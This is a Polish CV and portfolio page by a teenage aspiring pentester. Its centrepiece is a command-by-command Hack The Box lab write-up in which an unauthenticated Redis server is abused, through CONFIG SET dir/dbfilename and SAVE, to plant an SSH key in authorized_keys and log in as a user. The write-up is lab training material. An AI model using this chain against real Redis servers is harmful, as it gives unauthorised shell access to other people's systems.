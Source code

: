 # Raport CV – Kevin (17 lat) 🔥🚀

**O mnie:**  
Cześć! Nazywam się **Kevin**, mam 17 lat i jestem pasjonatem cyberbezpieczeństwa. Rozwijam się głównie na platformach **Hack The Box** i **TryHackMe**. Buduję swoje portfolio na GitHubie, gdzie trzymam notatki i raporty z przeprowadzonych zadań. Aktualnie nie dysponuję dużym budżetem, więc na HTB korzystam z bezpłatnego konta i przerabiam wszystko, co się da. Jestem ambitny, szybko się uczę i stale poszukuję nowych wyzwań. Obecnie szukam praktyk, aby rozwijać swoje umiejętności w realnym środowisku.

📧 **Kontakt:** bibip0662@gmail.com

---

## 1. Informacje ogólne 🌐
- **Imię i wiek:** Kevin, 17 lat  
- **Główne platformy:** Hack The Box (bezpłatne konto) & TryHackMe  
- **Cel:** Zostać Junior Penetration Testerem  
- **Portfolio:** GitHub – raporty, skrypty i notatki z maszyn HTB  
- **Motywacja:** Uwielbiam uczyć się nowych technik, nawet jeśli ogranicza mnie budżet – gdy zrozumiem zagadnienie, idzie już z górki! 😎💪

---

## 2. Maszyna „Odkupiciel” (Redeemer) na Hack The Box 🛠️
**Poziom trudności:** Very Easy (Starting Point)  
**Cel:** Zyskać dostęp do konta użytkownika „redeemer” poprzez serwer Redis.

### Kroki wykonane podczas łamania maszyny:
1. **Połączenie z VPN HTB**  
   - Uruchomiłem klienta OpenVPN z plikiem `starting_point.ovpn`.  
   - Upewniłem się, że interfejs `tun0` ma adres z zakresu HTB (10.x.x.x).  

2. **Skanowanie portów**  
   - Wykonałem:  
     ```
     nmap -Pn -sC -sV -oN redis_scan.txt <ADRES_IP>
     ```  
   - W wyniku zobaczyłem otwarty port **6379/tcp** (Redis 5.0).  

3. **Generacja klucza SSH**  
   - W katalogu `~/htb_keys` wygenerowałem:
     ```
     ssh-keygen -t rsa -b 2048 -f ~/htb_keys/mykey -N ""
     ```
   - Skopiowałem zawartość pliku `~/htb_keys/mykey.pub`.  

4. **Połączenie się z Redis**  
   - Uruchomiłem:  
     ```
     redis-cli -h <ADRES_IP> -p 6379
     ```  
   - W Redis CLI wpisałem:
     ```
     SET mykey "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD…Kevin@localhost"
     ```
   - Zweryfikowałem poprawność:
     ```
     GET mykey
     ```

5. **Zmiana katalogu i nazwy pliku Redis**  
   - W Redis CLI ustawiłem:
     ```
     CONFIG SET dir /home/redeemer/.ssh/
     CONFIG SET dbfilename authorized_keys
     ```
   - Wykonałem:
     ```
     SAVE
     ```
   - Dzięki temu plik `/home/redeemer/.ssh/authorized_keys` zawierał mój klucz SSH.

6. **Logowanie się na konto redeemer**  
   - Opuściłem Redis CLI (`exit`), a następnie wpisałem:
     ```
     ssh -i ~/htb_keys/mykey redeemer@<ADRES_IP>
     ```
   - Uzyskałem powłokę użytkownika **redeemer**.  

7. **Znalezienie flagi**  
   - W powłoce redeemer:
     ```
     cat /home/redeemer/user.txt
     ```
   - Uzyskałem flagę w formacie `HTB{…}` – potwierdzenie sukcesu na poziomie **user**.

---

## 3. Umiejętności i technologie 🌟
- **Skany sieci i usługi:** _nmap (–Pn, –sC, –sV)_, analiza wyników  
- **Praca z Redis:** _redis-cli_, `SET`, `GET`, `CONFIG SET`, `SAVE`  
- **SSH / klucze:** _ssh-keygen – RSA 2048_, `authorized_keys`  
- **Systemy operacyjne:** _Linux (Kali, Parrot OS), Windows_  
- **Tworzenie raportów:** _Markdown na GitHubie, szczegółowe opisy kroków_  
- **Szybkie przyswajanie wiedzy:** codzienne sesje HTB/TryHackMe, utrwalanie w notatkach  

---

## 4. Portfolio na GitHubie 📂
Na moim GitHubie znajdziesz pełne raporty i szczegółowe notatki dotyczące kolejnych maszyn Hack The Box, w tym:
- **Maszyna “Odkupiciel” (Redeemer)** – pełny opis krok po kroku, użyte komendy i wnioski.  
- Cheaty z najważniejszymi komendami Redis, SSH, nmap.  

**GitHub:** https://github.com/TwojeRepozytorium

---

## 5. Moje podejście do nauki 🚀
> „Czasem zadania są skomplikowane i trzeba chwilę nad nimi posiedzieć, ale gdy już zrozumiem, idzie z górki! 🔥  
> Codziennie, korzystając z bezpłatnego konta HTB i TryHackMe, poświęcam przynajmniej 1–2 godziny na praktykę. Zapisuję nowe techniki w notatkach, co pozwala szybko wrócić do materiału i utrwalić wiedzę.”  

---

## 6. Moje cele i plany 🎯
- **Krótkoterminowe:**  
  - Ukończyć kolejne maszyny w sekcjach Starting Point i Active Machines na HTB.  
  - Uzupełnić cheat sheety o nowe techniki Linux Privilege Escalation, Windows Privilege Escalation, Web Exploitation.  
  - Przygotować się do egzaminu CompTIA Security+.  

- **Średnioterminowe:**  
  - Zdobyć certyfikat CEH (Certified Ethical Hacker) lub OSCP.  
  - Znaleźć praktyki/staż w firmie zajmującej się pentestingiem.  
  - Dołączyć do open-source’owych projektów związanych z bezpieczeństwem.  

- **Długoterminowe:**  
  - Zostać pełnoprawnym Penetration Testerem w renomowanej organizacji.  
  - Prowadzić warsztaty i dzielić się wiedzą z kolejnymi entuzjastami IT.  

---

📧 **Kontakt:** bibip0662@gmail.com
